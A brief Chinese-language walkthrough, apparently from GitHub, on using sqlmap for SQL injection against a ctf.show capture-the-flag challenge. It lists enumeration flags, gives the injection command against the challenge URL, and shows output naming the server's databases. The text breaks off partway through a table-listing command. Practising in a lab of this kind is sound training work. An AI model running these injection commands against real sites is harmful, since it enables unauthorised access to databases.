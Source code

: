 # sqlmap使用

<br>

* 常用参数
````
常用参数
--dbs 所有数据库
--tables 所有表
--columns 所有列

````

<br>

### 第一步：开始脚本注入

<br>


* 使用sqlmap -u url来进行注入

例：

sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id="

<br>

### 第二步：查表

执行上述命令后得到注入成功的回显然后可以进行查库操作

<br>

如上述命令执行后得到

````

available databases [7]:                                                                                                                                                                                    
[*] ctfshow
[*] ctftraining
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
[*] test

````

<br>

* 接下来可以查看指定库的所有表：sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D 
* 
